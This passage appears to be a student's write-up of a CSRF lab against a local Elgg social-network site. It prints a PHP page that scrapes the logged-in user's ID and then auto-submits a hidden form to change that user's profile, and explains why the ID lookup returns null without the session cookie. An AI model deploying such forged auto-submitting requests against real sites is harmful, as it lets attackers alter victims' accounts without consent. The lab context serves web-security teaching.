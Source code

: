 ```php
<?php
$url = 'http://www.csrflabelgg.com/';
$page = file_get_contents($url);
if ($page === false) {
    die('Error fetching the page');
}

if (preg_match('/var\s+elgg\s*=\s*(\{.*?\});/s', $page, $matches)) {
    $elgg = json_decode($matches[1], true);
    if (isset($elgg['session']['user']['guid'])) {
        $guid = $elgg['session']['user']['guid'];
        $displayName = $elgg['session']['user']['name'];
    }
}
echo "JSON: " . json_encode($elgg) . "\n";
echo "User ID: $guid\n";
echo "Display Name: $displayName\n";
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title></title>
    <body>
        <form id="csrf-form" action="http://www.csrflabelgg.com/action/profile/edit" method="POST">
            <input type="hidden" name="name" value="<?php echo $displayName; ?>" />
            <input type="hidden" name="briefdescription" value="Boby is my Hero" />
            <input type="hidden" name="accesslevel[briefdescription]" value="2" />
            <input type="hidden" name="guid" value="<?php echo $guid; ?>" />
        </form>
        <script type="text/javascript">
            document.getElementById("csrf-form").submit();
        </script>
    </body>
</html>
```

Another user, Charlie, somehow clicked into the link `http://www.csrflabattacker.com/get_guid.php`.

However, in the actually received response, `session.user` is null despite the user has been logged in:

```json
{"config":{"lastcache":1549469429,"viewtype":"default","simplecache_enabled":1},"security":{"token":{"__elgg_ts":1743925278,"__elgg_token":"o7gWoypi6fETc8lSJoHEFg"}},"session":{"user":null,"token":"7q2mFYJMYuxzTImxxIoHYT"},"_data":[]}
```

This is because `file_get_contents` does not send the cookie `Elgg` to the server, and therefore the server cannot identify the user. To fix this, we attempted to use `cURL` to send the request with the cookie.
